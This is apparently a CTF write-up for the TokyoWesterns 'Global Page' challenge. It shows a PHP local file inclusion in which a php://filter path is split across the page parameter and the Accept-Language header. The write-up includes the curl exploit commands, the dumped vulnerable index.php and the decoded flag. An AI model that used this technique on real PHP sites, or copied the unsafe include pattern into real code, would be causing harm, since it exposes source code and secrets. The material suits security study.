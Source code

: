 # Global Page WriteUp

The "quest" begin with a link wihtout any hint or sentence: [link to Global Page.](http://globalpage.chal.ctf.westerns.tokyo/)

![Landing page](images/Globalpageindex.png)
The Landing Page show one deleted and two followable links.

Trying to follow ctf or tokyo: the browser makes a GET request to a php as parameter(page), the followed link(ctf or tokyo) -> `http://globalpage.chal.ctf.westerns.tokyo/?page=ctf` or `http://globalpage.chal.ctf.westerns.tokyo/?page=tokyo`.


![Page](images/page.png)

Mh! Warning: include(); suggest with high probability a **LFI** attack.
Before continue one consideration: the include function try to open a file with the page parameter as directory and the language specified in the Accept-Language Header Request as file.

Every LFI to the page parameter results in a correctly input sanity check(escape . and /).
(e.g. page=index.php -> indexphp/en.php, page=../../../etc/passwd -> etcpasswd/en.php)

If you add language code in the Accept-Language, the server include the properly file language php, if exist.

What can we do? Attach a LFI in the Accept-Language and build the properly LFI.

`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=index"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=index.php` that encode the index.php in base64.

Decode the base64 index.php and obtain:
```
<?php
if (!defined('INCLUDED_INDEX')) {
define('INCLUDED_INDEX', true);
ini_set('display_errors', 1);
include "flag.php"; <-- FLAG
?>
<!doctype html>
<html>
<head>
<meta charset=utf-8>
<title>Global Page</title>
<style>
.rtl {
  direction: rtl;
}
</style>
</head>

<body>
<?php
$dir = "";
if(isset($_GET['page'])) {
	$dir = str_replace(['.', '/'], '', $_GET['page']);
}

if(empty($dir)) {
?>
<ul>
	<li><a href="/?page=tokyo">Tokyo</a></li>
	<li><del>Westerns</del></li>
	<li><a href="/?page=ctf">CTF</a></li>
</ul>
<?php
}
else {
	foreach(explode(",", $_SERVER['HTTP_ACCEPT_LANGUAGE']) as $lang) {
		$l = trim(explode(";", $lang)[0]);
?>
<p<?=($l==='he')?" class=rtl":""?>>
<?php
		include "$dir/$l.php";
?>
</p>
<?php
	}
}
?>
</body>
</html>
<?php
}
?>
```

_include "flag.php"_, so one more time LFI:
`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=flag"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=flag.php`.

Decode base64 et voitlà:

```
pirate$ echo "PD9waHAKJGZsYWcgPSAiVFdDVEZ7SV9mb3VuZF9zaW1wbGVfTEZJfSI7Cg" | base64 -D -
<?php
	$flag = "TWCTF{I_found_simple_LFI}";
```








